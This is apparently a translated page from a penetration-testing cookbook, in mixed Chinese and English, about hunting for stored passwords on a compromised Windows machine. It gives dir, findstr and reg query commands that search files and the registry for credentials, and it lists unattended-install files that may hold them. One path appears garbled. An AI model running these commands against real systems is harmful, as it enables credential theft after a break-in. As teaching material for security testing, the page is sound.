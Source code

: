 ## 准备好了吗

一个 Windows 系统、一台 Kali 机器和对受损机器的远程 shell 访问几乎就是这个配方所需要的全部。

## 怎么做。。。

1.  Use the following command to search the file system for file names containing certain keywords that might reveal sensitive information:

    ```
          dir /s *pass* == *cred* == *vnc* == *.config*

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_007.jpg)

2.  To search for a certain file type matching a given keyword, use the following command:

    ```
          findstr /si password *.xml *.ini *.txt

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_008.jpg)

3.  要 grep 注册表中的关键字（如密码），请使用以下命令：

    ```
          reg query HKLM /f password /t REG_SZ /s
          reg query HKCU /f password /t REG_SZ /s

    ```

4.  我们还可以搜索无人参与的文件或可能公开某些信息的配置文件。查看系统上是否可以找到以下文件：

    ```
          c:\sysprep.inf
          c:\sysprepsysprep.xml
          %WINDIR%\Panther\Unattend\Unattended.xml
          %WINDIR%\Panther\Unattended.xml
          Note: we found Unattended.xml in the screenshot shared above.
